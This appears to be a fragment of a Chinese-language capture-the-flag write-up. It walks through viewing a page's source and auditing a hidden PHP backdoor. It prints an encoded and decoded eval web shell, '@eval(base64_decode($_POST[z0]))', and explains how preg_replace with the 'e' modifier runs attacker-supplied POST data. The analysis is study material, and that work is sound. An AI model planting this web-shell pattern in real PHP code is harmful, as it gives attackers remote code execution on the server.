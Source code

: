 ![72718226981](assets/1727182269815.png)

查看view.html看看有啥发现

跳转到了下面的这个页面

![72718300794](assets/1727183007948.png)

观察源码发现：

![72718303970](assets/1727183039709.png)

代码审计：

​	对W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=进行base64解码后的内容为[@eval(base64_decode($_POST[z0]));]

- 从 `$_POST` 超全局数组中获取数据（假设数据是 base64 编码的），然后将其解码。
- 查找解码结果中 `[` 和 `]` 之间的内容，并用该内容替换整个匹配字符串。
- 由于使用了 `e` 修饰符，替换的内容会被当作 PHP 代码执行。
